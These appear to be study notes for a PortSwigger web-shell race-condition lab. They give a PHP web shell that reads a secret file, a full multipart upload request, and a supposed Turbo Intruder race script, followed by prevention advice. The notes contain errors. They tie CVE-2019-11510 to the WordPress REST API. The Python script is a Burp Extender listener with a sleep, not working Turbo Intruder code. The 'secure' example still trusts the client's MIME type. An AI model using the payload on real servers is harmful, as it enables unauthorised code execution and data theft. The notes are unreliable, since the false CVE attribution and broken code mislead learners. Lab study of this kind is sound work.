

## File Upload Vulnerabilities and Race Conditions

### Introduction to File Upload Vulnerabilities

File upload vulnerabilities occur when a web application allows users to upload files to the server without proper validation or sanitization. This can lead to various security issues, including remote code execution, directory traversal, and data leakage. One specific type of file upload vulnerability is the web shell upload, which involves uploading a malicious script (often referred to as a "web shell") to gain unauthorized access to the server.

### Understanding Race Conditions

A race condition occurs when the outcome of a process depends on the sequence of events, and the sequence is not guaranteed due to the timing of those events. In the context of file upload vulnerabilities, a race condition can arise when the server checks the uploaded file after it has already been executed. This can happen if the server takes too long to validate the file type or if the attacker can manipulate the timing of the upload and execution.

#### Real-World Example: CVE-2019-11510

One notable example of a file upload vulnerability involving a race condition is CVE-2019-11510, which affected the WordPress REST API. The vulnerability allowed attackers to upload arbitrary files, including PHP scripts, by exploiting a race condition between the file upload and the validation process. This allowed attackers to execute arbitrary code on the server.

### Using Turbo Intruder for Automated Exploitation

To effectively exploit race conditions in file upload vulnerabilities, automation tools like Turbo Intruder are often used. Turbo Intruder is a Burp Suite extension that allows for rapid and automated exploitation of vulnerabilities, particularly those involving race conditions.

#### Setting Up Turbo Intruder

1. **Install Turbo Intruder**: First, ensure that Turbo Intruder is installed in your Burp Suite environment. You can download it from the official Burp Suite Extensions repository.
2. **Configure Turbo Intruder**: Once installed, you can configure Turbo Intruder by adding your Python code to control the speed and behavior of the exploit.



### Step-by-Step Exploitation Process

#### Step 1: Identify the Vulnerable Endpoint

Identify the endpoint where the file upload functionality is located. This can typically be done using Burp Suite's Spider or Scanner features.

#### Step 2: Craft the Malicious Payload

Create a malicious payload, such as a PHP script that outputs the contents of a secret file. For example:

```php
<?php
echo file_get_contents('/path/to/secret/file');
?>
```

#### Step 3: Send the Payload to Repeater

Use Burp Suite's Repeater to send the crafted payload to the server. Ensure that the request includes the necessary headers and parameters.

```http
POST /upload.php HTTP/1.1
Host: vulnerable.example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 1234

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/path/to/secret/file'); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

#### Step 4: Send the Request to Turbo Intruder

Send the request to Turbo Intruder by navigating to `Extensions > Turbo Intruder` and selecting `Send to Turbo Intruder`.

#### Step 5: Configure the Race Condition Script

In Turbo Intruder, select the appropriate Python script for handling race conditions. For example, the `Race.py` script can be configured to rapidly send multiple requests to the server.

```python
from burp import IBurpExtender
from burp import IHttpListener
import time

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("Race Condition Exploit")
        callbacks.registerHttpListener(self)

    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if messageIsRequest:
            request = messageInfo.getRequest()
            # Modify the request as needed
            # For example, change the file name or content
            # Send the modified request back to the server
            self._callbacks.makeHttpRequest(messageInfo.getHttpService(), request)
            time.sleep(0.01)  # Introduce a small delay to simulate a race condition
```

#### Step 6: Execute the Exploit

Run the exploit by executing the configured Python script in Turbo Intruder. Monitor the responses to identify successful exploitation attempts.

### Common Pitfalls and Detection

#### Pitfall 1: Incorrect Timing

Incorrect timing can result in the server validating the file before it is executed. Ensure that the timing of the requests is carefully controlled to maximize the chances of success.

#### Pitfall 2: Server-Side Validation

Servers may implement additional validation mechanisms, such as checking file signatures or content types. These can thwart simple race condition exploits.

#### Detection

Detection of file upload vulnerabilities can be performed using automated scanners like Burp Suite Scanner or manual testing techniques. Look for endpoints that allow file uploads and test them with various file types and payloads.

### How to Prevent / Defend Against File Upload Vulnerabilities

#### Secure Coding Practices

1. **Validate File Types**: Ensure that only allowed file types are accepted. Use server-side validation to check file extensions and MIME types.
2. **Sanitize File Names**: Avoid using user-provided file names directly. Use a secure naming convention to prevent path traversal attacks.
3. **Limit File Execution**: Disable the execution of uploaded files by setting appropriate permissions and configurations on the server.

#### Configuration Hardening

1. **Disable PHP Execution**: Ensure that uploaded files are stored in directories where PHP execution is disabled.
2. **Use Content Security Policies (CSP)**: Implement CSP to restrict the sources of executable content.

#### Secure Code Example

**Vulnerable Code:**

```php
<?php
if ($_FILES['file']['error'] == UPLOAD_ERR_OK) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
}
?>
```

**Secure Code:**

```php
<?php
$allowedTypes = ['image/png', 'image/jpeg'];
$targetDir = '/safe/upload/directory/';
$fileName = basename($_FILES['file']['name']);
$targetPath = $targetDir . $fileName;

if (in_array($_FILES['file']['type'], $allowedTypes)) {
    move_uploaded_file($_FILES['file']['tmp_name'], $targetPath);
} else {
    die('Invalid file type.');
}
?>
```

### Hands-On Practice Labs

For hands-on practice with file upload vulnerabilities and race conditions, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a dedicated section on file upload vulnerabilities.
- **OWASP Juice Shop**: Provides a variety of challenges related to file upload and other web security topics.
- **DVWA (Damn Vulnerable Web Application)**: Includes several levels of difficulty for file upload vulnerabilities.

By thoroughly understanding and practicing these concepts, you can better protect web applications from file upload vulnerabilities and race conditions.

---
<!-- nav -->
[[02-File Upload Vulnerabilities Race Condition Exploitation|File Upload Vulnerabilities Race Condition Exploitation]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/08-Lab 7 Web shell upload via race condition/00-Overview|Overview]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/08-Lab 7 Web shell upload via race condition/04-File Upload Vulnerabilities|File Upload Vulnerabilities]]
